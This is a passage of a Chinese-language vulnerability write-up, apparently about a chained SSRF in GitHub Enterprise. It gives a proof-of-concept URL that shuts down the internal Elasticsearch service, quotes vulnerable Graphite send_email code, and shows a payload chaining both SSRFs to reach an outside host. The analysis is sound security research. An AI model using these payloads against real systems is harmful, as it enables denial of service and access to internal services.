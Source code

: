 2. 只运行HTTP和HTTPS模式；

3. 没有302重定向；

4. faraday中没有CR-LF命令注入；

5. 无法控制POST数据和HTTP头；

我们唯一能够控制的就是其中的Path部分。但值得一提的是，这个SSRF漏洞可以导致拒绝服务攻击（DoS）。

在GitHub Enterprise中，端口9200绑定了一个弹性搜索服务，在后台使用关机命令的时候，该服务并不会关心其中的POST数据到底是什么内容。因此，我们就可以随意对它的REST-ful API进行操作了！

拒绝服务攻击PoC：

```
http://0:9200/_shutdown/
```



**第二个漏洞-内部Graphite中的SSRF**

****

我们已经拿到了一个SSRF漏洞，但这个漏洞限制那么多，想要直接利用它估计是很困难的，所以接下来我打算找找看是否还有其他的内部服务是可以被我们利用的。这可是一个大工程，因为在GitHub Enterprise中还有很多的HTTP服务，而每一个服务很可能都是采用不同的编程语言实现的，例如C/C++、Go、Python以及Ruby等等。在研究了好几天之后，我发现了一个名叫Graphite的服务，该服务绑定的端口号为8000。Graphite服务是一个高度可伸缩的实时图形系统，而GitHub需要使用这个系统来给用户显示某些图形化的统计数据。

Graphite采用Python语言开发，并且它本身也是一个开源项目，你可以点击**【**[**这里**](https://github.com/graphite-project/graphite-web)**】**获取Graphite项目的源代码。阅读了Graphite的源代码之后，我迅速地发现了另一个SSRF。第二个SSRF比较简单，这个漏洞存在于webapps/graphite/composer/views.py文件之中：

```
def send_email(request):
    try:
        recipients = request.GET['to'].split(',')
        url = request.GET['url']
        proto, server, path, query, frag = urlsplit(url)
        if query: path += '?' + query
        conn = HTTPConnection(server)
        conn.request('GET',path)
        resp = conn.getresponse()
        ...
```

你可以看到，**Graphite**会接受用户输入的**url**地址，然后直接进行资源请求！所以，我们就可以利用第一个SSRF漏洞来触发第二个SSRF漏洞，并将它们两个漏洞组合成一个SSRF执行链。

SSRF执行链Payload：



```
http://0:8000/composer/send_email?
to=orange@nogg&amp;
url=http://orange.tw:12345/foo
```

第二个SSRF的请求：

